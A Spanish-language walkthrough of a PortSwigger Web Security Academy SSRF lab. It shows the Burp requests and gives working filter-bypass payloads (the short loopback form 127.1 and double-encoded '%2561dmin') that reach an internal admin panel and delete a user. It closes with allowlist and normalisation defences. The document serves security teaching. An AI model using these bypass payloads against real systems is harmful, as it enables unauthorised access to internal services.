



# PortSwigger Web Security Academy — SSRF Lab 3

# SSRF with blacklist-based input filter

**URL del laboratorio:**  
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

**Nombre del laboratorio:**  
SSRF con filtro de entrada basado en blacklist

**Categoría:**  
Server-Side Request Forgery — SSRF

**Objetivo del laboratorio:**  
Modificar la URL usada por la funcionalidad de comprobación de stock para acceder a la interfaz de administración interna en:

```text
http://localhost/admin
```

Después, usar esa interfaz para eliminar al usuario:

```text
carlos
```

**Resumen del reto:**  
La aplicación tiene una funcionalidad de comprobación de stock que hace peticiones desde el servidor hacia otro recurso. Esa funcionalidad es vulnerable a SSRF, pero el desarrollador ha añadido dos defensas débiles basadas en blacklist. Para resolver el laboratorio hay que saltarse esas defensas y conseguir que el servidor haga una petición interna al panel de administración.

---

## Imágenes usadas

| Imagen | Descripción |
|---|---|
| `images/imagen_1_inicio_laboratorio.png` | Página inicial del laboratorio, tienda con productos y estado `Not solved`. |
| `images/imagen_2_bypass_127_1_admin_render.png` | Render de la respuesta cuando se consigue acceder al panel admin usando el bypass. |
| `images/imagen_3_laboratorio_resuelto_carlos_borrado.png` | Render final con el laboratorio resuelto y el usuario `carlos` eliminado. |



---

# 1. Qué es SSRF

SSRF significa **Server-Side Request Forgery**.

Traducido de forma práctica:

> SSRF ocurre cuando tú consigues controlar una URL o destino que el servidor usa para hacer una petición HTTP desde el lado servidor.

La parte importante es **quién hace la petición**.

En una navegación normal:

```text
Tu navegador  --->  servidor web
```

En una funcionalidad vulnerable a SSRF:

```text
Tu navegador  --->  servidor vulnerable  --->  URL controlada por ti
```

Es decir, tú no atacas directamente el recurso interno. Tú haces que el servidor vulnerable lo ataque por ti.

Esto es muy potente porque el servidor vulnerable puede tener acceso a recursos que tú, desde Internet, no puedes alcanzar directamente:

- `localhost`
- redes internas
- paneles de administración internos
- servicios en puertos no expuestos públicamente
- APIs internas
- servicios cloud metadata
- bases de datos internas
- Redis, Elasticsearch, Jenkins, Docker API, Kubernetes API, etc.

La frase clave es:

> SSRF convierte al servidor vulnerable en tu proxy hacia su red interna.

---

# 2. Qué hace la funcionalidad vulnerable del laboratorio

El laboratorio es una tienda. Desde la página principal se ven productos.


La funcionalidad vulnerable está en el botón de comprobación de stock. El flujo normal es:

1. Entras a un producto.
2. Pulsas `Check stock`.
3. El navegador manda una petición al backend.
4. El backend consulta una URL de stock.
5. El backend devuelve la respuesta al navegador.

Conceptualmente, el backend hace algo parecido a esto:

```python
stock_api = request.form["stockApi"]
response = requests.get(stock_api)
return response.text
```

El problema está en que el usuario controla `stockApi`.

Si `stockApi` apunta al servidor legítimo de stock, todo funciona normal.

Pero si lo cambiamos por una URL interna, el backend intentará acceder a esa URL interna.

---

# 3. Petición original capturada con Burp Suite

Para analizar el laboratorio:

1. Activamos FoxyProxy o el proxy del navegador.
2. Abrimos Burp Suite.
3. Entramos a cualquier producto.
4. Pulsamos `Check stock`.
5. Buscamos la petición en `HTTP history`.
6. La enviamos a `Repeater`.

La petición original tiene esta forma:

```http
POST /product/stock HTTP/1.1
Host: 0ab7002203aea96181c861090090008f.web-security-academy.net
Cookie: session=mq9blYyWliau2pAhPaLripK1Sordrpuj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab7002203aea96181c861090090008f.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ab7002203aea96181c861090090008f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

La parte importante está en el body:

```text
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Está URL-encodeado.

Decodificado queda así:

```text
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Esto significa:

> El navegador no está consultando el stock directamente. El navegador le está diciendo al backend: “consulta tú esta URL y devuélveme el resultado”.

Ese es el punto exacto donde nace el SSRF.

---

# 4. Por qué `stockApi` es el parámetro vulnerable

El parámetro vulnerable es:

```text
stockApi=
```

Porque controla el destino de una petición hecha por el backend.

En una aplicación segura, el servidor no debería aceptar una URL arbitraria del usuario para hacer peticiones internas. Como mínimo debería validar estrictamente el destino permitido.

Aquí, en cambio, el backend acepta una URL en `stockApi` y la usa para consultar stock.

Flujo real:

```text
Tú
 ↓
POST /product/stock
 ↓
Servidor vulnerable
 ↓
GET stockApi
 ↓
Respuesta del destino
 ↓
Servidor vulnerable devuelve esa respuesta a ti
```

Visualmente:

```text
[Tu navegador]
      |
      | stockApi=http://...
      v
[Servidor vulnerable]
      |
      | petición HTTP desde el servidor
      v
[Servicio de stock / recurso interno]
```

La idea clave:

> En SSRF no se explota el navegador. Se explota al servidor para que haga peticiones en tu nombre.

---

# 5. Qué hace diferente este lab respecto al SSRF básico

En el SSRF básico contra localhost, podías usar directamente:

```text
http://localhost/admin
```

En este lab el objetivo sigue siendo el panel interno:

```text
http://localhost/admin
```

Pero hay defensas débiles.

El enunciado dice:

> El desarrollador ha implementado dos defensas débiles anti-SSRF que tendrás que saltarte.

Eso normalmente significa que se ha intentado bloquear ciertas cadenas con una blacklist.

Ejemplo conceptual:

```python
if "localhost" in stockApi:
    block()

if "127.0.0.1" in stockApi:
    block()

if "admin" in stockApi:
    block()
```

El problema de este enfoque es que las URLs se pueden representar de muchas formas equivalentes.

Una blacklist busca cadenas concretas, pero el parser de URLs y la capa HTTP pueden interpretar otras representaciones como el mismo destino.

La frase clave:

> Una blacklist compara texto. El servidor HTTP resuelve URLs.

Y esas dos cosas no siempre coinciden.

---

# 6. Primera prueba: intentar `localhost/admin`

Probamos a modificar `stockApi` para apuntar directamente al panel de administración local:

```text
stockApi=http://localhost/admin
```

URL-encodeado para enviarlo en el body:

```text
stockApi=http%3a//localhost/admin
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Esto confirma que existe una defensa.

La aplicación no intenta hacer la petición, sino que bloquea antes porque detecta algo prohibido.

Posiblemente ha detectado:

```text
localhost
```

o:

```text
admin
```

o ambas.

Conclusión de esta prueba:

> `localhost/admin` no funciona porque activa la blacklist.

---

# 7. Segunda prueba: intentar `127.0.0.1`

Como `localhost` está bloqueado, probamos con la IP de loopback clásica:

```text
http://127.0.0.1/
```

En el body:

```text
stockApi=http%3a//127.0.0.1/
```

Resultado:

```http
HTTP/2 400 Bad Request
```

Esto indica que la blacklist también bloquea probablemente:

```text
127.0.0.1
```

Hasta aquí el filtro parece bloquear las representaciones más obvias del loopback:

```text
localhost
127.0.0.1
```

Pero esto no significa que haya bloqueado todas las formas equivalentes.

---

# 8. Bypass del bloqueo de `127.0.0.1`: usar `127.1`

Aquí entra una peculiaridad importante de las direcciones IPv4.

Estas direcciones apuntan al loopback:

```text
127.0.0.1
127.1
127.000.000.001
```

En muchas librerías y sistemas, `127.1` se interpreta como una forma abreviada de `127.0.0.1`.

Es decir:

```text
http://127.1/
```

sigue apuntando a la máquina local.

Pero si la blacklist solo busca literalmente:

```text
127.0.0.1
```

entonces:

```text
127.1
```

no coincide con la blacklist.

Probamos:

```text
stockApi=http%3a//127.1/
```

Y recibimos una respuesta correcta.



Esto demuestra que:

1. El SSRF funciona.
2. `127.1` llega al servidor local.
3. El filtro no está normalizando bien las direcciones IP.
4. El bloqueo de `localhost` / `127.0.0.1` es incompleto.

La idea clave:

> Si un filtro bloquea una representación concreta de una IP, intenta representaciones equivalentes.

---

# 9. Por qué `127.1` equivale a localhost

Las direcciones `127.0.0.0/8` están reservadas para loopback.

Eso significa que cualquier IP dentro de ese rango apunta a la propia máquina.

Ejemplos:

```text
127.0.0.1
127.0.0.2
127.1
127.255.255.254
```

No todas las aplicaciones interpretan todos los formatos igual, pero en muchos entornos `127.1` se resuelve como loopback.

La diferencia importante para el lab:

```text
127.0.0.1  → bloqueado por blacklist
127.1      → no bloqueado, pero sigue siendo loopback
```

Esto es justo el tipo de problema que aparece cuando se usan blacklists simples en vez de validación robusta.

---

# 10. Tercera prueba: acceder a `/admin` con `127.1`

Ahora que sabemos que `127.1` permite llegar al servidor local, intentamos acceder al panel admin:

```text
http://127.1/admin
```

En el body:

```text
stockApi=http%3a//127.1/admin
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Esto nos dice algo muy útil:

- El bypass de `localhost` ya lo tenemos.
- El bloqueo ahora probablemente se dispara por la palabra `admin`.

La aplicación está detectando `/admin` en la URL y bloqueándolo.

Entonces necesitamos esconder `admin` del filtro, pero hacer que el servidor final lo interprete como `/admin`.

---

# 11. Intento con URL encoding simple: `%61dmin`

La letra `a` se puede codificar en URL encoding como:

```text
%61
```

Entonces:

```text
admin
```

puede escribirse como:

```text
%61dmin
```

Probamos:

```text
http://127.1/%61dmin
```

En el body:

```text
stockApi=http%3a//127.1/%61dmin
```

Pero sigue bloqueado:

```http
HTTP/2 400 Bad Request
```

Esto sugiere que la aplicación probablemente decodifica una vez antes de comprobar la blacklist.

Es decir, el filtro ve:

```text
%61dmin
```

lo decodifica a:

```text
admin
```

lo detecta y bloquea.

Conclusión:

> URL encoding simple no basta porque el filtro parece decodificar una vez.

---

# 12. Bypass real: double URL encoding

Si el filtro decodifica una vez, podemos usar doble codificación.

Queremos que el destino final sea:

```text
/admin
```

Pero no queremos que el filtro vea literalmente:

```text
admin
```

La letra `a` es:

```text
%61
```

El carácter `%` es:

```text
%25
```

Por tanto, para enviar `%61` codificado, escribimos:

```text
%2561
```

Desglose:

```text
%2561
```

Primera decodificación:

```text
%61
```

Segunda decodificación:

```text
a
```

Entonces:

```text
%2561dmin
```

termina convirtiéndose en:

```text
admin
```

pero solo después de pasar por más de una capa de procesamiento.

---

# 13. Punto clave: no es “magia”, son varias capas procesando la URL

Este detalle es crucial.

No hay que entenderlo como:

> “Internet decodifica dos veces mágicamente”.

La forma correcta de entenderlo es:

> Distintas capas procesan la URL en momentos distintos.

Flujo posible:

```text
Input enviado:
http://127.1/%2561dmin

↓

Filtro SSRF decodifica una vez:
http://127.1/%61dmin

↓

El filtro busca "admin":
No lo encuentra.

↓

La librería HTTP / servidor destino procesa la URL:
%61 → a

↓

Petición final real:
http://127.1/admin
```

Visualmente:

```text
TU INPUT
  ↓
Filtro anti-SSRF
  ve: %61dmin
  ↓
Librería HTTP / servidor
  ve: admin
```

La vulnerabilidad aparece porque:

> El filtro y el parser final no interpretan exactamente la misma URL.

Esta diferencia de interpretación es una causa muy común de bypasses en seguridad web.

---

# 14. Acceso al panel admin con el bypass completo

Usamos:

```text
http://127.1/%2561dmin
```

En el body:

```text
stockApi=http%3a//127.1/%2561dmin
```

Respuesta:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=vI6bLcFYLcKaKDq4MOMLMiNrOATI2Gc4; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3178
```

Y dentro del HTML aparece el panel de administración:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```

Esto confirma que el bypass funciona.

La URL que el filtro no quería permitir era:

```text
http://localhost/admin
```

Pero llegamos al mismo recurso usando:

```text
http://127.1/%2561dmin
```

Renderizando la respuesta en Burp se ve el panel con los usuarios `wiener` y `carlos`.


---

# 15. Qué representa el HTML del panel admin

El panel devuelto contiene dos usuarios:

```text
wiener
carlos
```

Y para cada usuario hay un enlace de borrado:

```html
<a href="/admin/delete?username=wiener">Delete</a>
<a href="/admin/delete?username=carlos">Delete</a>
```

El objetivo del laboratorio es eliminar a `carlos`, así que necesitamos provocar que el servidor vulnerable haga una petición interna a:

```text
/admin/delete?username=carlos
```

Pero no podemos usar `/admin` directamente porque el filtro lo bloquea.

Por eso debemos usar la misma técnica:

```text
/%2561dmin/delete?username=carlos
```

---

# 16. Payload final para borrar a Carlos

URL interna objetivo real:

```text
http://127.1/admin/delete?username=carlos
```

Versión con bypass:

```text
http://127.1/%2561dmin/delete?username=carlos
```

En el body de la petición, URL-encodeado parcialmente:

```text
stockApi=http%3a//127.1/%2561dmin/delete%3fusername%3dcarlos
```

Al enviarlo, recibimos:

```http
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=LsRowh9C78NRLr1q64DEPpS5KT4eRhFs; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

---

# 17. Qué significa el `302 Found`

El `302 Found` no significa que haya fallado.

En aplicaciones web es muy común que, después de ejecutar una acción, el servidor redirija a otra página.

Flujo normal:

```text
GET /admin/delete?username=carlos
 ↓
Servidor elimina a Carlos
 ↓
Servidor responde 302 Location: /admin
 ↓
Navegador vuelve al panel admin
```

En Burp Repeater, muchas veces no se sigue automáticamente la redirección. Por eso ves solo:

```http
HTTP/2 302 Found
Location: /admin
```

Lo importante es que el endpoint se ha ejecutado.

La frase clave:

> En este contexto, el 302 confirma que la acción interna se ejecutó y luego la aplicación quiso redirigir al panel admin.

---

# 18. Confirmación final

Después de enviar el payload de borrado, volvemos a renderizar el panel admin usando:

```text
stockApi=http%3a//127.1/%2561dmin
```

Ahora el laboratorio aparece como resuelto y `carlos` ya no está en la lista.



En la respuesta final se ve:

```text
User deleted successfully!
Users
wiener - Delete
```

Eso confirma que:

1. Hemos accedido al panel admin interno.
2. Hemos saltado el filtro basado en blacklist.
3. Hemos ejecutado una acción administrativa interna.
4. Hemos eliminado a `carlos`.
5. El laboratorio queda resuelto.

---

# 19. Resumen técnico del ataque

## Objetivo bloqueado

```text
http://localhost/admin
```

## Problema

El filtro bloquea:

```text
localhost
127.0.0.1
admin
```

## Bypass 1: loopback alternativo

En vez de:

```text
localhost
127.0.0.1
```

usamos:

```text
127.1
```

## Bypass 2: double URL encoding de `admin`

En vez de:

```text
/admin
```

usamos:

```text
/%2561dmin
```

porque:

```text
%2561 → %61 → a
```

## Payload para ver el admin

```text
stockApi=http%3a//127.1/%2561dmin
```

## Payload para borrar Carlos

```text
stockApi=http%3a//127.1/%2561dmin/delete%3fusername%3dcarlos
```

---

# 20. Diferencia entre blacklist y allowlist

Este lab enseña por qué una blacklist es débil.

Una blacklist intenta bloquear lo malo:

```text
bloquear localhost
bloquear 127.0.0.1
bloquear admin
```

El problema es que lo malo puede escribirse de muchas formas:

```text
localhost
localhost.
127.0.0.1
127.1
2130706433
0x7f000001
%61dmin
%2561dmin
```

Una allowlist hace lo contrario:

```text
solo permitir stock.weliketoshop.net
solo permitir rutas concretas
solo permitir protocolo http/https esperado
solo permitir puerto esperado
```

La allowlist es mucho más segura porque no intenta adivinar todas las formas maliciosas posibles. Define explícitamente qué destinos son válidos.

Regla práctica:

> Para SSRF, bloquear cadenas peligrosas no es suficiente. Hay que permitir únicamente destinos conocidos y seguros.

---

# 21. Por qué este filtro falla

El filtro falla por dos motivos principales.

## 21.1. No normaliza correctamente el host

Bloquea:

```text
127.0.0.1
```

pero permite:

```text
127.1
```

Aunque ambos pueden apuntar al loopback.

La validación correcta debería resolver y normalizar la IP final antes de decidir si se permite.

## 21.2. No normaliza correctamente la ruta

Bloquea:

```text
/admin
```

pero permite:

```text
/%2561dmin
```

porque el valor cambia entre capas de decodificación.

La validación correcta debería hacerse sobre una URL completamente normalizada, y aun así lo ideal sería no permitir rutas arbitrarias.

---

# 22. Qué habría que hacer para defender correctamente

Una defensa robusta contra SSRF debería incluir varias capas.

## 22.1. No aceptar URLs completas controladas por el usuario

En vez de recibir:

```text
stockApi=http://...
```

mejor recibir datos de negocio:

```text
productId=1
storeId=1
```

Y que el servidor construya internamente la URL segura.

## 22.2. Allowlist estricta

Permitir solo destinos concretos:

```text
stock.weliketoshop.net
```

y bloquear todo lo demás.

## 22.3. Validar el esquema

Permitir solo:

```text
http
https
```

Bloquear esquemas como:

```text
file://
gopher://
ftp://
dict://
```

## 22.4. Resolver DNS y comprobar IP final

Aunque el usuario pase un dominio aparentemente válido, hay que resolverlo y comprobar que no apunta a rangos internos.

Bloquear rangos como:

```text
127.0.0.0/8
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
169.254.0.0/16
::1
fc00::/7
fe80::/10
```

## 22.5. Evitar redirecciones peligrosas

Aunque el primer destino sea válido, podría redirigir a un destino interno.

Por eso hay que validar también cada redirección.

## 22.6. Separar redes

El servidor web no debería tener acceso directo a paneles administrativos internos si no lo necesita.

## 22.7. Autenticación real en paneles internos

No confiar solo en “esto solo es accesible desde localhost”.

El acceso interno no sustituye a la autenticación.

---

# 23. Errores conceptuales comunes

## Error 1: pensar que `localhost` es tu máquina

En SSRF, cuando pones:

```text
http://localhost/admin
```

no estás apuntando a tu ordenador.

Estás haciendo que el servidor vulnerable apunte a sí mismo.

`localhost` depende de quién hace la petición.

En este lab, quien hace la petición es el backend.

## Error 2: pensar que un 400 significa que no hay SSRF

El 400 puede significar que el filtro detectó algo.

No demuestra que la funcionalidad no sea vulnerable.

De hecho, este lab demuestra lo contrario: hay SSRF, pero hay que saltar el filtro.

## Error 3: pensar que URL encoding simple siempre evita filtros

Aquí `%61dmin` no funciona porque el filtro probablemente decodifica una vez.

Por eso usamos double encoding:

```text
%2561dmin
```

## Error 4: pensar que un 302 es fallo

En acciones como borrar usuario, un `302` suele significar que la acción se ejecutó y la aplicación redirige al panel.

---

# 24. Comparación con labs anteriores

| Laboratorio | Objetivo | Dificultad principal |
|---|---|---|
| SSRF básico contra localhost | `http://localhost/admin` | Acceder directamente a recurso interno conocido |
| SSRF contra otro backend | `192.168.0.X:8080/admin` | Escanear red interna para encontrar la IP correcta |
| SSRF con blacklist | `localhost/admin` | Evadir filtros débiles de host y ruta |

Este laboratorio no introduce escaneo interno como el anterior. Introduce bypass de filtros.

La idea cambia:

```text
No necesito descubrir el host.
Necesito representar el mismo host de una forma que el filtro no reconozca.
```

---

# 25. Flujo completo del laboratorio

```text
1. Abrir laboratorio.
2. Entrar a un producto.
3. Pulsar Check stock.
4. Capturar POST /product/stock con Burp.
5. Enviar a Repeater.
6. Identificar stockApi.
7. Probar http://localhost/admin.
8. Recibir 400 por blacklist.
9. Probar http://127.0.0.1/.
10. Recibir 400.
11. Probar http://127.1/.
12. Recibir 200.
13. Probar http://127.1/admin.
14. Recibir 400 por bloqueo de admin.
15. Probar http://127.1/%61dmin.
16. Recibir 400 porque el filtro decodifica una vez.
17. Probar http://127.1/%2561dmin.
18. Recibir 200 y ver panel admin.
19. Enviar http://127.1/%2561dmin/delete?username=carlos.
20. Recibir 302.
21. Renderizar panel admin.
22. Confirmar que Carlos ya no aparece.
23. Laboratorio resuelto.
```

---

# 26. Payloads finales

## Acceso al panel admin

```text
stockApi=http%3a//127.1/%2561dmin
```

Decodificación conceptual:

```text
http://127.1/%2561dmin
↓
http://127.1/%61dmin
↓
http://127.1/admin
```

## Borrado del usuario Carlos

```text
stockApi=http%3a//127.1/%2561dmin/delete%3fusername%3dcarlos
```

Decodificación conceptual:

```text
http://127.1/%2561dmin/delete?username=carlos
↓
http://127.1/%61dmin/delete?username=carlos
↓
http://127.1/admin/delete?username=carlos
```

---

# 27. Conclusión

Este laboratorio demuestra tres ideas esenciales de SSRF:

1. **SSRF permite que el servidor haga peticiones internas por ti.**  
   El navegador no accede directamente a `localhost`; lo hace el backend.

2. **Las blacklists son defensas débiles.**  
   Bloquear cadenas como `localhost`, `127.0.0.1` o `admin` no basta porque existen representaciones equivalentes.

3. **Las diferencias de interpretación entre capas permiten bypasses.**  
   El filtro puede ver `%61dmin`, mientras que la capa final interpreta `admin`.

El aprendizaje principal es:

> En SSRF, no basta con bloquear palabras peligrosas. Hay que validar de forma estricta el destino real, normalizado y resuelto, o mejor aún, no permitir URLs arbitrarias controladas por el usuario.


